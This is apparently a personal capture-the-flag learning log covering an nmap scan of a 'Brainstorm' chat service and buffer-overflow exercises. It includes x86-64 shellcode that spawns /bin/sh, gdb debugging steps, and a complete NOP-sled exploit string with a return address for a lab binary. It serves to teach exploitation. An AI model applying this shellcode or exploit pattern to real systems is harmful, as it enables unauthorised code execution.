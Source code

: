 ```
nmap -sC -sV -T5 -Pn --min-rate 2500 target -oN nmap.log -v
...
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|_  SYST: Windows_NT
9999/tcp open  abyss?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     Welcome to Brainstorm chat (beta)
|     Please enter your username (max 20 characters): Write a message:
...
```

#### Breathe and do bof1

Hex code from room tasks to open up a basic shell (does not work here):
```
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05
```

In general the approach is correct:
```
python -c "print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)"
```

Try & error (until 3am):
```
gdb --args ./buffer-overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
start
set disassembly-flavor intel
disas main
disas copy_arg
b *0x40054d
c
i r rip # 0x40054d 0x40054d <copy_arg+38>
x/32wx $rdx
p/x $rax # $1 = 0x7fffffffe380
i f # ... rip at 0x7fffffffe418
```

### Day 8 - Try harder

#### CrackMe
Source file: [crackme](https://myexperiments.io/exploit-basic-buffer-overflow.html)

Shellcode from [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-806.php)
```
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```
##### GDB solution
```
$(python -c 'print "\x90" * 68 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * 41 + "\x80\xe0\xff\xff\xff\x7f"')
```
